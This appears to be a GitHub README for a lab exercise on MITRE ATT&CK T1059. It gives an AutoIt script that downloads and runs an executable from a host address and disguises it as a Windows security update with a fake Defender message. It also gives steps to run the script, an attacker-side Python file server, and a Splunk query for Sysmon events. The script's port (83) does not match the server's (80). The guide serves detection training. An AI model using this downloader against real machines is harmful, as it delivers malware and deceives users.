




# 🛡️ T1059 Execution Guide

## Overview

This guide demonstrates MITRE ATT&CK technique **T1059** (Command and Scripting Interpreter) using AutoIt and a simulated malicious payload. For configuration details, see the [config.xml](./config.xml).

---

## 1️⃣ Install AutoIt

Download and install AutoIt from the official website:

[AutoIt Downloads](https://www.autoitscript.com/site/autoit/downloads/)

---

## 2️⃣ Prepare the Malicious Script

Create a file named `malicious.au3` with the following content:

```autoit
; T1059 real Indian invoice payload - Nov 2025
Run("calc.exe")                                      ; Simulates a glitch
Sleep(3000)                                          ; 3 second delay like real malware
InetGet("http://192.168.122.1:83/fake_payload.exe", @TempDir & "\WindowsSecurityUpdate.exe", 1)
Run(@TempDir & "\WindowsSecurityUpdate.exe")         ; Fake "AV update"
MsgBox(0, "Windows Defender", "Security update installed successfully!", 5)
```

---

## 3️⃣ Execute the Script (Windows)

Open PowerShell and run:

```powershell
Start-Process -FilePath "{path_to_AutoIt3.exe}" -ArgumentList "{path_to_malicious.au3}"
```

Replace `{path_to_AutoIt3.exe}` with the path to the AutoIt executable and `{path_to_malicious.au3}` with the path to your script.




---

## 4️⃣ Attacker Setup

Host the malicious file for download using Python:

```bash
python3 -m http.server 80
```

Place `fake_payload.exe` in the same directory as your Python server.

---

## 📊 Splunk Detection Query

Use the following SPL (Search Processing Language) query in Splunk to analyze Sysmon events:

```splunk
index=sysmon
| stats count as Events by EventCode
| eventstats sum(Events) as TotalEvents
| eval percentage = round((Events/TotalEvents)*100, 3)."%"
| eval EventName = case(EventCode==1,"Process Create",EventCode==5,"Process Terminated",EventCode==11,"File Create",1==1,"Other")
| table EventCode EventName Events percentage
| sort - Events
```

This query summarizes Sysmon event codes, calculates their percentage, and labels common event types.



